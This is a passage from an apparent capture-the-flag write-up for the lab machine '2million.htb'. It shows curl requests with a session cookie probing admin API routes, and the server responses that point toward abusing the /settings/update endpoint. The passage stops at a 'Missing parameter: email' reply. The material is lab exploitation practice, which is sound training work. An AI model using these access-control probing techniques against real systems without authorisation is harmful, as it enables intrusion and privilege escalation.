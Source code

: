 ```json
{"message":false}
```

False. Let's see if the other two routes checks if I'm admin.

`/vpn/generate` : 

```
curl -v http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -d ""  # '-d' to use POST method without any data
```

```
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> Cookie: PHPSESSID=877le0dr37hcm1p5bgbbvg8bte
> ...
>
< HTTP/1.1 401 Unauthorized
< Server: nginx
< ...
```

`/settings/update` :

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -d ""
```

```
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> Cookie: PHPSESSID=877le0dr37hcm1p5bgbbvg8bte
> Content-Type: application/x-www-form-urlencoded
> ...
>
< HTTP/1.1 200 OK
< Server: nginx
< Content-Type: application/json
< ...

{"status":"danger","message":"Invalid content type."}
```

Ok, the content type of our request is wrong. Let's try to use `application/json` instead of the curl default (`application/x-www-form-urlencoded`):

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d ""
```

```
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> Cookie: PHPSESSID=877le0dr37hcm1p5bgbbvg8bte
> Content-Type: application/json
> ...
>
< HTTP/1.1 200 OK
< Server: nginx
< Content-Type: application/json
< ...
<

{"status":"danger","message":"Missing parameter: email"}⏎
```
